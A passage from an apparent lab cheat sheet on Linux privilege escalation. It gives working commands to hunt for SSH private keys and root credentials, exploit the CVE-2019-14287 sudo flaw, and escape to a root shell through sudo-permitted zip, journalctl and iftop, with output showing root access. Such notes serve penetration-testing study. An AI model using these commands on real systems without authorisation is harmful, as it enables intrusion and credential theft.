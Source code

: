 ````
````
- The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:
````
su root
````
#### SSH Keys
- Sometimes users make backups of important files but fail to secure them with the correct permissions.
- Look for hidden files & directories in the system root:
````
ls -la /
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
````
### Old sudo version
- CVE-2019-14287
````
sudo --version
Sudoers I/O plugin version 1.8.21p2 #output
sudo -l
(ALL, !root) NOPASSWD: /bin/bash #output
````
- Looking for the `(ALL, !root) NOPASSWD:`, and Sudo (versions < 1.8.28).  Easy priv esc.
````
whoami
tryhackme
sudo -u#-1 /bin/bash
whoami
root
````
### Sudo-Shell escape Sequences
- List the programs which sudo allows your user to run:
````
sudo -l
````
Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.
#### Zip
````
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
touch hello.txt
sudo /usr/bin/zip 1.zip hello.txt -T --unzip-command="sh -c /bin/bash"
id
uid=0(root) gid=0(root) groups=0(root)
````
````
Sudo -l
````
#### npm
- ![alt text](https://miro.medium.com/max/2400/1*VucdYx033uiuiMXc7ZxIhQ.png)
- ![alt text](https://miro.medium.com/max/2400/1*0yhB6pvhjXSAJq1BuFPyxA.png)
#### journalctl
````
sudo journalctl
!/bin/sh
````
#### iftop
````
sudo /usr/bin/iftop
!/bin/bash #hit enter
````